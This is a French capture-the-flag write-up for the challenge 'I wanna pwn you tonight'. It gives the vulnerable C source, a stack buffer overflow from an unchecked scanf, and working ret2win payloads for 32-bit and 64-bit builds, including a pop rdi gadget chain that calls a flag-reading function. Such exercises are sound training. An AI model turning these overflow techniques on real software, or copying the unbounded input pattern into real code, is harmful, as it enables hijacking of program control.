

# I wanna pwn you tonight

## Enoncé
```
   Vous continuez de cliquer sur la meilleure catégorie ? J'ai un flag pour vous, rien de bien compliqué. Il vous suffit d'appeler une fonction avec le bon argument en 32 et 64 bits. Facile pas vrai ? Mais ça reste entre nous.
```
## Reverse
Le code source du  challenge étant fourni, il n'y a pas beaucoup de rétro-ingénierie à faire de notre côté.

```c
#include <stdio.h>
#include <stdlib.h>

void display_banner() {
  puts(" __     ____    __    ____  ___      .__   __. .__   __.      ___         .______   ____    __    ____ .__   __.    ____    ____  ______    __    __     .___________.  ______   .__   __.  __    _______  __    __  .___________.");
  puts("|  |    \\   \\  /  \\  /   / /   \\     |  \\ |  | |  \\ |  |     /   \\        |   _  \\  \\   \\  /  \\  /   / |  \\ |  |    \\   \\  /   / /  __  \\  |  |  |  |    |           | /  __  \\  |  \\ |  | |  |  /  _____||  |  |  | |           |");
  puts("|  |     \\   \\/    \\/   / /  ^  \\    |   \\|  | |   \\|  |    /  ^  \\       |  |_)  |  \\   \\/    \\/   /  |   \\|  |     \\   \\/   / |  |  |  | |  |  |  |    `---|  |----`|  |  |  | |   \\|  | |  | |  |  __  |  |__|  | `---|  |----`");
  puts("|  |      \\            / /  /_\\  \\   |  . `  | |  . `  |   /  /_\\  \\      |   ___/    \\            /   |  . `  |      \\_    _/  |  |  |  | |  |  |  |        |  |     |  |  |  | |  . `  | |  | |  | |_ | |   __   |     |  |     ");
  puts("|  |       \\    /\\    / /  _____  \\  |  |\\   | |  |\\   |  /  _____  \\     |  |         \\    /\\    /    |  |\\   |        |  |    |  `--'  | |  `--'  |        |  |     |  `--'  | |  |\\   | |  | |  |__| | |  |  |  |     |  |     ");
  puts("|__|        \\__/  \\__/ /__/     \\__\\ |__| \\__| |__| \\__| /__/     \\__\\    | _|          \\__/  \\__/     |__| \\__|        |__|     \\______/   \\______/         |__|      \\______/  |__| \\__| |__|  \\______| |__|  |__|     |__|     ");
  puts("                                                                                                                                                                                                                                  ");
}

void pwned(int arg) {
  printf("\n");
  if (arg == 0xdeadbeef) {
    char flag[50];
    FILE* f = fopen("flag.txt", "r");
    if (f == NULL) {
      printf("Fichier flag introuvable, contactez un administrateur");
    }
    else {
      fread(flag, 1, 50, f);
      flag[34] = '\00';
      fclose(f);
      if (arg != 0xdeadbeef) {
        puts("Oh allez, faites le de manière legit ;)");
        exit(0);
      }
      puts(flag);
      exit(0);
    }
  }
}

void vuln() {
  char buf[32];
  puts("I wanna pwn you tonight");
  printf("Do you ? ");
  scanf("%s", &buf);
  return;
}

int main() {
  setvbuf(stdin,NULL,_IONBF,0);
  setvbuf(stdout,NULL,_IONBF,0);
  display_banner();
  vuln();
  puts("Pas de pwn, pas de flag !");
  puts("Shame");
  return 0;
}


```

On remarque assez rapidement la présence de la fonction `pwned`, qui prend un entier en paramètre. Si l'entier se trouve être égal à `0xdeadbeef`, elle lit le fichier `flag.txt` et l'affiche à l'écran. Cependant, cette fonction n'est jamais appelée.

Heureusement pour nous, la fonction `vuln` qui est appelée par le main ne vérifie pas la taille de la chaîne de caractères qu'elle récupère auprès de l'utilisateur.

```c
void vuln() {
  char buf[32];
  puts("I wanna pwn you tonight");
  printf("Do you ? ");
  scanf("%s", &buf); // <---- Pas de vérification du nombre de caractères entrés
  return;
}
```

A partir de ces observations, on comprends que le challenge consiste en une simple exploitation de type ret2win. La seule différence entre les deux binaires sera la manière dont nous passerons les arguments.

## Exploitation 32-bits

La première étape est de trouer combien d'octets nous devons mettre dans notre buffer avant que le programme ne segfault. Après quelques tests en local, on trouve qu'il nous faut écrire 44 octets avant d'écraser la sauvegarde d'eip. Une fois la sauvegarde d'eip écrasée, on écrit un DWORD de zeros (qui deviendra l'adresse de retour si jamais nous rencontrons une instruction `ret` en parcourant `pwned`, mais la fonction `exit` est de toute façon appelée avant.  On écrit ensuite un DWORD  avec la valeur `0xdeadbeef` qui sera l'argument de notre fonction.

```python
rop.raw(b"A"*44)
rop.raw(p32(0x0804925f)) # addresse de pwned()
rop.raw(p32(0))
rop.raw(p32(0xdeadbeef))
```


## Exploitation 64-bits

La seconde étape du challenge consiste à exploiter le même programme, cette fois-ci compilé en 64-bits. Les étapes à suivre seront globalement les mêmes, à la différence prêt que l'argument de pwn devra se trouver dans `rdi` et non sur la stack. Nous allons donc devoir trouver un gadget `pop rdi ; ret` afin de pouvoir contrôler le contenu de ce registre. Il y a plusieurs moyen de procéder, mais j'utilise `ROPgadget` pour ce writeup.



```python
rop.raw(b"A"*40)
rop.raw(p64(0x00000000004011f2)) # pop rdi ; ret
rop.raw(p64(0xdeadbeef))
rop.raw(p64(0x00000000004011e7)) # addresse de pwned()
```

NB : L'adresse de ce gadget n'est pas forcément celle présente sur le binaire du CTF. C'est normal mon compilateur est davantage à jour ;).
